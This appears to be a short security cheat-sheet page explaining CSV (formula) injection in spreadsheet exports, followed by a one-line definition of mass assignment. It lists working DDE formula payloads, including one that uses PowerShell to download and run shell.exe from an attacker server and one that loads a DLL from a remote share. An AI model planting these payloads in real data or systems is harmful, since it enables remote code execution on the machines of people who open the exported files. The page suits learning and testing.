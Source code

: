 Formula injection:
====
when web application is processing user supplied data in EXPORT functionality spread sheet.
                    <h3>or</h3>
CSV Injection occurs when the data injection occurs when the data in a spreadsheet cell is not properly validated prior to export. 
The attacker usually injects a malicious payload (formula) into the input field.
Once the data is exported, the spreadsheet executes the malicious payload on the assumption of a standard macro.

<h3>Payload:</h3>
           
           DDE ("cmd";"/C calc";"!A0")A0
           @SUM(1+9)*cmd|' /C calc'!A0
           =10+20+cmd|' /C calc'!A0
           =cmd|' /C notepad'!'A1'
           =cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
           =cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1

<h3>Mass Assignment</h3>
    
 When there are 2 parameters and the user insert the third un-recognised parameter and aceepted without validating is described as Mass assignment.
    
    
